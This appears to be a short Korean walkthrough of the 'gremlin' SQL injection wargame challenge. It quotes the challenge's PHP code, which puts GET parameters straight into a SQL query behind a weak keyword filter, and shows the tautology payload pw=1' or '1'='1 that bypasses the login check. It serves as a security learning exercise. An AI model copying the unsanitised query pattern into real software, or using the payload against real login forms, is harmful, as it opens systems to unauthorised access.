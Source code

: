 # gramlin

다음 소스는 해당 페이지의 코드이다.

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

`query`문을 보면 `id`와 `pw`를 우리가 `get`으로 넣어줄 수 있고 만약 조건문이 `True`가 된다면 우리는 `gramlin`을 잡을 수 있다.

> ?id=admin&pw=1' or '1'='1 이렇게 넣어준다면 `query`문은 다음과 같다.

```sql
select id from prob_gremlin where id='admin' and pw='1' or '1'='1'
```

조건문이 `True`가 되어 클리어!

